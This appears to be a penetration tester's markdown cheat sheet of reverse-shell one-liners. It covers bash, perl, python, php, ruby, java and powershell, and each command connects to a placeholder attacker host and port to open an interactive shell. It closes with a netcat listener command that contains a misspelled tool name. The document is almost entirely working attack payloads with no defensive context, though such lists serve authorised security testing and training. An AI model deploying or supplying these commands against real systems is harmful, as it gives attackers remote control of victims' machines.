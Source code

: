# reverse shell

%reverse shell, reverse

## bash reverse shell
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

## perl reverse shell
```
perl -e 'use Socket;$i="<lhost>";$p=<lport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php reverse shell
```
php -r '$sock=fsockopen("<lhost>",<lport>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("<lhost>",<lport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## java reverse shell
```
r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<lhost>/<lport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()
```

## powershell reverse shell
```
 $client = New-Object System.Net.Sockets.TCPClient('<lhost>',<lport>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## windows listener autocompletion
```
rlwramp nc -nlvp <port>
```

